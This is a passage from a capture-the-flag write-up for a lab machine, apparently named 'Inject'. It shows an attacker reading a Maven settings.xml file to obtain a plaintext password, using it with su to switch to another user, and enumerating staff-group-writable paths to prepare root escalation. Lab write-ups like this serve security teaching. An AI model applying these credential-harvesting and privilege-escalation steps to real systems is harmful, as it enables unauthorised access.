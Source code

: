 
### Shell as Phil

Upon inspecting the personal directory of the user "Frank," we did not find the user flag. However, we did notice a directory named ".m2." Upon entering this directory, we discovered the "settings.xml" file, which contains credentials.

```
frank@inject > cat /home/frank/.m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

  
We attempted to use these credentials to perform a migration to the user "Phil" and verified that they are correct.

```
frank@inject > su phil
Password: DocPhillovestoInject123
phil@inject > 
```


### Shell as Root

To escalate our privileges, the first step is to check if we have sudoers privileges. However, we did not find any relevant configurations in that regard. Nonetheless, we noticed that as the user "Phil," we belong to the "staff" group and have the ability to modify the contents of the "/opt/automation/tasks" directory.

```
phil@inject > id 
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)

```

```
phil@inject > find / -group staff 2>/dev/null
/opt/automation/tasks
/root
/var/local
/usr/local/lib/python3.8
/usr/local/lib/python3.8/dist-packages
/usr/local/lib/python3.8/dist-packages/ansible_parallel.py
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/LICENSE
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/RECORD
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/entry_points.txt
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/WHEEL
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/METADATA
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/top_level.txt
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/INSTALLER
```